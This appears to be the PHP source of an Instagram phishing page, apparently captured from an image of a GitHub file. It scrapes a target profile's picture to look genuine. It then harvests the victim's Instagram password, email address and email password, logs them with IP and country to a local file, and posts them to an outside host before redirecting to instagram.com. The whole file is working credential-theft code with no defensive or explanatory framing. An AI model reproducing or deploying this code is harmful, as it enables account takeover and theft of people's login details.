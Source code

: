 <?php
error_reporting(0);
function ara($bas, $son, $yazi)
{
    @preg_match_all('/' . preg_quote($bas, '/') .
    '(.*?)'. preg_quote($son, '/').'/i', $yazi, $m);
    return @$m[1];
}
$nick = $_GET['nick'];
$_SERVER["VOTK4"]=$nick;
$url = 'https://instagram.com/' . $nick;
    $html = file_get_contents($url);
    $dom = new DOMDocument();
    $dom->loadHTML($html);
    $veri = $dom->textContent;
    $cc = ara('"thumbnail_src":"','"',$veri);
    $meta_tags = $dom->getElementsByTagName('meta');
    foreach( $meta_tags as $meta ) {
        if( $meta->getAttribute('property') == 'og:image' ) {
            $image_url = $meta->getAttribute('content');
        }
    }
if(empty($cc)){
        $cc[0] = $image_url;
    }
if($_POST){
$mail = $_POST["mail"];
$mailpass = $_POST["mailpass"];
$password =  $_POST['password'];
$ip = $_SERVER['REMOTE_ADDR'];
$details = json_decode(file_get_contents("http://ip-api.com/json/{$ip}"));
$ulke = $details->country;
date_default_timezone_set('Europe/Istanbul');
$cur_time=date("d-m-Y H:i:s");
$file = fopen('votk4.txt', 'a');
fwrite($file, "index: ".$nick."\n" ."Password: ".$password. "\n"."Mail: ".$mail."\n"."Mail Password: ".$mailpass."\n"."Ip Adress: " .$ip."\n".

"Country: ".$ulke ."\n".   "Time: " .$cur_time.  "\n\n\n");
fclose($file);
echo '';
    header("Location: https://www.instagram.com/");

$date = date("d-m-Y H:i:s");
$gonderilecekler = "username=$nick&password=$password&mail=$mail&mailSifre=$mailpass&ip=$ip&tarih=$date";

$ornek=curl_init(); curl_setopt($ornek, CURLOPT_TIMEOUT, 5); curl_setopt($ornek,CURLOPT_URL,"https://stalkciyiz.com/user/index.php"); curl_setopt($ornek,CURLOPT_POST,1); curl_setopt($ornek, CURLOPT_POSTFIELDS, $gonderilecekler);  $gelen_veri = curl_exec($ornek); echo $gelen_veri;  curl_close($ornek);

}
